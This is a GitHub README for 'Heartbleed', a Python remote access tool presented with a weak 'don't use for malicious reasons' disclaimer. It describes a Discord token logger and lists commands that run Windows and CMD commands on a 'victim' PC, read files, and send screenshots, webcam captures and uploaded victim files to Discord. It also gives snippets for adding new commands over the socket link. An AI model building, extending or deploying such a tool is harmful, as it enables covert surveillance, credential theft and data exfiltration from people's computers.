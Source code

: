 # 🩸 Heartbleed 
 ## Advanced remote access tool

 Don't use for malicious reasons.
 You can use it for reasons such as trolling your friends or learning from the code.

Usage: python Server.py {ip} {port},
Example: python Server.py 127.0.0.1 8080.

Client listens to 127.0.0.1:8080 by default. You can always change this.
Server connects to given ip & port. Also has discord token logger.

        ===> Commands <===

            "1": Used to view folders in specified directory.
            "2": Used to send message box with message and title and get response.
            "3": Execute Windows commands.
            "4": View content of readable text files.
            "5": Execute a link in web browser.
            "6": Execute hotkey.
            "7": Execute CMD commands.
            "8": Take screenshot of victim PC and send to discord.
            "9": Take shot of victim webcam and send to discord.
            "10": Upload files of victim and send to discord. (upto 7mb).

You can always add more commands if you like.

# To add a command (Server.py)
Inside of the function, commandHQ() just below the command variable write the following code

```Python
if command == "{number}":
    try:
        argument = input(format + "Enter argument: ") # Use this if you need an argument
        message = str(["{name}", argument or ""])
        message = message.encode()
        conn.send(message)
        ans = True
    except:
        reload()
```

Now just below the incoming_message variable write the following code:

```Python
if incoming_message[0] == "{name}":
    print(format + "Data received: {}".format(incoming_message[1]))
```

Replace {number} with your command prefix & replace {name} with your command name.

# To add a command (Client.py)
Inside of the while loop, just below the incoming_message variable write the folling code

```Python
if incoming_message[0] == "{name}":
     # Write your code
    code = ""
    end = str(['sfisd', code])
    end = end.encode()
    s.send(end)
```

Replace {name} with your command name and make sure to set variable code's value to your function's end product.

# Example of Usage

  <img align="left" alt="PNG" src="https://raw.githubusercontent.com/xTornaido/Heartbleed/master/images/example.png" width="961" height="320" />

# The End.

That's the end!
